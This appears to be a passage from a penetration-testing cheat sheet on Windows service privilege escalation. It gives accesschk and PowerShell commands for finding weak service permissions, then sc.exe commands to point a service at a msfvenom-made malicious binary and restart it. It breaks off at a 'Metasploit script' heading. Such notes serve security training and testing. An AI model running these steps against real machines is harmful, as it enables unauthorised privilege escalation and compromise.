 #### View current services:

`net start`

**Viewing Service ACLs using powershell**

Use the Get-[ServiceACL ](broken-reference)script, and run:

`'FakeService' | Get‐ServiceAcl | Select‐Object ‐ExpandProperty Access`

If the service permissions allow us to start stop or change config we can modify the service permissions.

#### Accesschk

#### Checking Permissions

Can be done using [Accesschk](https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk) - a sysinternal tool

**Checking Folder Permissions: **

`accesschk.exe -dqv C:\Some\Path `

`accesschk.exe -dvq UserGroup c:\ `

#### **Checking Service Permissions: **

`accesschk.exe -ucqv ServiceName `

`accesschk.exe -ucvq* <Any_Service> `

**Check Service Write Access**:&#x20;

`accesschk.exe -uwcqv UserGroup* `

#### Changing Service Configuration&#x20;

Let's enumerate services with accesschk from SysInternals and look for SERVICE\_ALL\_ACCESS or  SERVICE\_CHANGE\_CONFIG as these privileges allow attackers to modify service configuration:&#x20;

`accesschk.exe /accepteula -ucv "user" evilsvc `

`accesschk.exe /accepteula -uwcqv "Authenticated Users" * `

We can see the user 'user' has 'SERVICE\_ALL\_ACCESS' to the service 'evilsec'&#x20;

**Create a malicious binary using msfvenom and point the services: **

`.\sc.exe config evilsvc binpath= "c:\program.exe" `

(Run hanlder)&#x20;

Start the service:&#x20;

`.\sc.exe start evilsvc `

Or&#x20;

`net stop [service name] && net start [service name]. `

### Metasploit script
